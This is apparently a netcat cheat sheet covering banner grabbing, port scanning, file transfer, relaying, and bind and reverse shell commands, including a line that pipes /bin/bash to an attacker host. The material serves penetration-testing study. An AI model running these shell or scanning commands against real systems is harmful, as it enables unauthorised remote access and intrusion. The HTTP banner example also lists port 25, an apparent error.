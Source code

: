 * [Netcat](#netcat)
  * [banner grabbing](#banner-grabbing)
  * [listener](#listener)
  * [transfer file](#transfer-file)
  * [port scanning](#port-scanning)
  * [executing program](#executing-program)
  * [running shell](#running-shell)
  * [relaying](#relaying)

# Netcat
Refs:
* <https://www.youtube.com/watch?v=7YrYRQQLjdA>
* <https://www.poftut.com/netcat-nc-command-tutorial-examples/>
## banner grabbing
```sh
# ssh
netcat 192.251.124.3 22
# SMTP
netcat 192.251.124.3 25

# HTTP
netcat 192.251.124.3 25
GET / HTTP/1.1
```
## listener
```sh
netcat -l -p 6789
```
## transfer file
```sh
# sender
netcat <receiver_ip_addr> 6789 < send_file
# receiver
netcat -l -p 6789 > recv_file
```
## port scanning
```sh
netcat -v -w1 -z <target_ip> <port_range>
```
`-v`  : verbose

`-w1` : wait for 1 sec before timeout

`-z`  : No I/O
## executing program
- The program can be an executable file (EXE, ELF, etc) or a script (shell, ruby, python etc)
- Any I/O is redirected to the established socket
```sh
netcat -e /path/to/executable
```
## running shell
### bind shell
```sh
# attacker
netcat <victim_ip> 1234
# victim
netcat -l -p 1234 -e /bin/bash
```
### reverse shell
```sh
# attacker
netcat -l -p 1234
# victim
netcat <attacker_ip> 1234 -e /bin/bash
```
## relaying
### server client relay
```
   ------                 -------------                 ----- 
  |client|-------------->|server|client|-------------->|server|
   ------                 -------------                 ------
                             Relay                      Target
```
```sh
# on relay
mknod mypipe p
netcat -l -p 6789 < mypipe | netcat <target_ip> 80 > mypipe
```
